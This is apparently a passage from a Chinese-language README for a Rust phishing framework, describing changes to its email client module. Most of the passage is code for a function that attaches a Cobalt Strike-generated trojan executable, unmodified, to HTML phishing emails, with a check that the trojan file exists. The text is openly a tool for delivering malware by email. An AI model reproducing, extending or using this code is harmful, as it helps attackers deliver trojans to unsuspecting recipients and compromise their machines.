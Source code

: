 ```toml
    exec --fail-on-error cargo build --release --target ${TARGET_MACOS} --features ${features}
end
'''
```

### 2. 简化附件钓鱼的逻辑
（注：如需使用原先的逻辑，在./client/src/stmp.rs代码中取消add_attachment 函数调用和相关代码的注释，删除或注释新的add_attachment函数的代码）

1）移除了URL替换逻辑：注释了原先的 add_attachment 函数调用和相关代码，对add_attachment代码进行了重写

2）直接使用原始文件：直接从 original_appendix_name_exe 路径读取CS生成的木马文件

3）简化了文件处理：不再创建临时目录和文件，直接读取源文件

4）添加了文件存在性检查：确保CS生成的文件确实存在

改动的代码文件位置：./client/src/stmp.rs
```toml
fn add_attachment(
    html_content: &str,
    original_appendix_name_exe: &str,
    entry_id: &str,
    use_appendix: bool,
    appendix_name_for_sending: &str,
) -> Result<MultiPart, Box<dyn Error>> {
    let appendix_name_for_sending = ensure_exe_suffix(appendix_name_for_sending);
    let mpart = MultiPart::mixed()
        .singlepart(
            lettre::message::SinglePart::builder()
                .header(lettre::message::header::ContentType::TEXT_HTML)
                .body(html_content.to_string())
        );

    #[cfg(not(feature = "appendix"))]
    match use_appendix {
        true => {
            return Err(Box::new(std::io::Error::new(
                std::io::ErrorKind::NotFound,
                "你的程序没有编译appendix功能，不支持附件钓鱼，请修改你的配置文件"
            )))

        },
        false => {
            return Ok(mpart);
        }
    }

    #[cfg(feature = "appendix")]
    match use_appendix {
        true => {
            // 直接使用CS生成的木马文件，不进行改写
            let cs_generated_file = original_appendix_name_exe;
            
            // 验证文件存在
            if !Path::new(cs_generated_file).exists() {
                return Err(Box::new(std::io::Error::new(
                    std::io::ErrorKind::NotFound,
                    format!("CS生成的木马文件不存在: {}", cs_generated_file)
                )));
            }

            let path = Path::new(&appendix_name_for_sending);
            let mime_str = MimeGuess::from_path(path)
                .first_or_octet_stream()
                .essence_str().to_string(); 
```